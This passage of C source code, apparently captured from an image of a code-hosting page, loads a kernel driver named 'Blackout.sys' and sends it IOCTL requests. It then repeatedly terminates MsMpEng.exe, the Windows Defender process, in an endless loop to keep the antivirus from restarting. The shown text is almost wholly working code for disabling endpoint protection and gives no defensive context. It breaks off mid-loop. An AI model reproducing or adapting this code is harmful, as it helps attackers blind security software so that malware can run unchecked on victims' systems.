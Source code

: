         WIN32_FIND_DATAA fileData;  
        HANDLE hFind;  
        char FullDriverPath[MAX_PATH];  
        BOOL once = 1;  
      
        hFind = FindFirstFileA("Blackout.sys", &fileData);  
      
        if (hFind != INVALID_HANDLE_VALUE) { // file is found  
            if (GetFullPathNameA(fileData.cFileName, MAX_PATH, FullDriverPath, NULL) != 0) { // full path is found  
                printf("driver path: %s\n", FullDriverPath);  
            }  
            else {  
                printf("path not found !!\n");  
                return(-1);  
            }  
        }  
        else {  
            printf("driver not found !!\n");  
            return(-1);  
        }  
        printf("Loading %s driver .. \n", fileData.cFileName);  
      
        if (LoadDriver(FullDriverPath))  
        {  
            printf("faild to load driver ,try to run the program as administrator!!\n");  
            return (-1);  
        }  
      
        printf("driver loaded successfully !!\n");  
      
        HANDLE hDevice = CreateFile(L"\\\\.\\Blackout", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);  
      
        if (hDevice == INVALID_HANDLE_VALUE) {  
            printf("Failed to open handle to driver !! ");  
            return (-1);  
        }  
      
        DWORD bytesReturned = 0;  
        DWORD input = atoi(argv[2]);  
        DWORD output[2] = { 0 };  
        DWORD outputSize = sizeof(output);  
      
        BOOL result = DeviceIoControl(hDevice, INITIALIZE_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL);  
        if (!result)  
        {  
            printf("faild to send initializing request %X !!\n", INITIALIZE_IOCTL_CODE);  
            return (-1);  
        }  
      
        printf("driver initialized %X !!\n", INITIALIZE_IOCTL_CODE);  
      
        if (GetPID(L"MsMpEng.exe") == input)  
        {  
            printf("Terminating Windows Defender ..\nkeep the program running to prevent the service from restarting it\n");  
            while (0x1)  
            {  
                if (input = GetPID(L"MsMpEng.exe"))  
                {  
                    if (!DeviceIoControl(hDevice, TERMINSTE_PROCESS_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL))  
                    {  
                        printf("DeviceIoControl failed. Error: %X !!\n", GetLastError());  
                        CloseHandle(hDevice);  
                        return (-1);  